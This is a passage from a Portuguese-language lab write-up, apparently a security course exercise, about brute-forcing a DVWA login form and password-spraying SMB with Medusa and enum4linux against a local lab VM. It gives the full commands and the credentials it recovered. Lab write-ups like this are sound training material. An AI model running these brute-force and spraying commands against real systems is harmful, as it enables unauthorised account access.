 Observação: no seu registro, Medusa encontrou credenciais válidas (por exemplo `msfadmin:msfadmin`) contra o FTP. 

---

## 3) Ataque a formulário web (DVWA) com Medusa

DVWA: `http://192.168.56.3/dvwa/login.php` — inspecione o formulário com DevTools para descobrir os nomes dos campos (`username`, `password`). 

Exemplo (tentativa):

```sh
medusa -h 192.168.56.3 -U users.txt -P pass.txt -M http \
  -m 'PAGE:/dvwa/login.php' \
  -m 'FORM:username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL:Login failed' -t 6
```

> Observação: dependendo da versão do Medusa e da sintaxe do módulo HTTP, a forma de passar os parâmetros pode variar — no arquivo de notas aparecem avisos de “Invalid method: PAGE/FORM” em algumas execuções (teste e ajuste conforme a versão instalada). 

Se o método `-m PAGE/FORM/FAIL` não for aceito, adapte usando `curl` em um script simples ou outra ferramenta (Hydra, Burp Intruder). 

---

## 4) Enumeração SMB + Password Spraying

1. Enumere usuários com `enum4linux`:

```sh
enum4linux -a 192.168.56.3 | tee enum4_output.txt
```

2. Monte `smb_users.txt` e `senhas_spray.txt`:

```sh
echo -e "user\nmsfadmin\nservice" > smb_users.txt
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt
```

3. Execute Medusa para SMB NTLM:

```sh
medusa -h 192.168.56.3 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

No exemplo registrado, Medusa encontrou `msfadmin:msfadmin` e relatou `ADMIN$ - Access Allowed` para SMB. Isso demonstra sucesso do password spraying contra contas com senhas fracas. 

---

# Wordlists / scripts usados

* `users.txt`:
